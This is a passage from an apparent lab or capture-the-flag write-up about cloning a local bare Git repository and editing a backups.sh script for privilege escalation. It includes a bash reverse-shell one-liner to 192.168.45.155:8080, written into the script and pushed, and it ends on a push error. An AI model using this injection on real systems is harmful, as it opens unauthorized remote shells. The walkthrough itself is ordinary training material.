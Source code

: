 So we are gonna clone that repo to other directory, and will be able to make changes in it and push.

```bash
git clone file:///git-server/
```

- Git interprets `file:///` as "access this repository from the local file system" rather than from a remote server.
- The path `/git-server/` must be a **bare Git repository** (i.e., a repo intended for sharing, usually ending in `.git` and lacking a working directory).
- Git creates a **clone** (a complete copy) of the repo in the current directory or a specified one.

![image.png](image%209.png)

![image.png](image%2010.png)

After cloning bare-repo we have now a [non-bare](https://coderefinery.github.io/git-collaborative/bare-repos/) repo and git reconstructed a file from the last commit that’s why we can now see `backups.sh` file. 

Running

```bash
git log
```

we can see commit history, all commits are done by our user.

![image.png](image%2011.png)

To make changes in `backup.sh` file and injecting our reverse shell we first should set our identity for future commits.

```bash
git config --global user.email "dade@local.host"
git config --global user.name "Dademola"
```

![image.png](image%2012.png)

Now let’s inject a reverse shell in that file:

```bash
echo "bash -c 'bash -i >& /dev/tcp/192.168.45.155/8080 0>&1'" > backups.sh
chmod +x backups.sh
git add -A
git commit -m "update"
git push origin master
```

We encountered an error saying that `error: remote unpack failed: unable to create temporary object directory` that means we cannot write to remote repository, let’s check it:

![image.png](image%2013.png)
